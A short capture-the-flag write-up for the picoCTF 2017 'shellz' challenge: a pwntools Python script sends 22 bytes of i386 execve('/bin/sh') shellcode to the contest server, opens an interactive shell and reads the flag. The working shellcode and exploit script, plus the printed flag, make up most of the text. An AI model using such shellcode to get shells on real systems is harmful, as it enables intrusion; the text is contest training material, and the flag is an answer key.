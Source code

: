 ### Solved by superkojiman

Yet another shellcoding challenge. This one reads 40 bytes of data but no longer has a win() function to return to. No problme, just send it our own execve shellcode

```
#!/usr/bin/env python

from pwn import *

r = remote("shell2017.picoctf.com",12169)

context(os="linux", arch="i386")
buf = "jhh///sh/bin\x89\xe31\xc9j\x0bX\x99\xcd\x80"

print "len buf:", len(buf)
open("in.txt", "w").write(buf)


print r.recv()
r.sendline(buf)
r.interactive()
```

And the output

```
root|picoctf|~/work/level2/pwn/shellz
$ ./sploit.py
[+] Opening connection to shell2017.picoctf.com on port 12169: Done
len buf: 22
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?

[*] Switching to interactive mode
Give me 40 bytes:
$ ls
flag.txt
shellz
shellz_no_aslr
xinetd_wrapper.sh
$ cat flag.txt
4c34815c5a51fdcc58220e27e7d46521
```
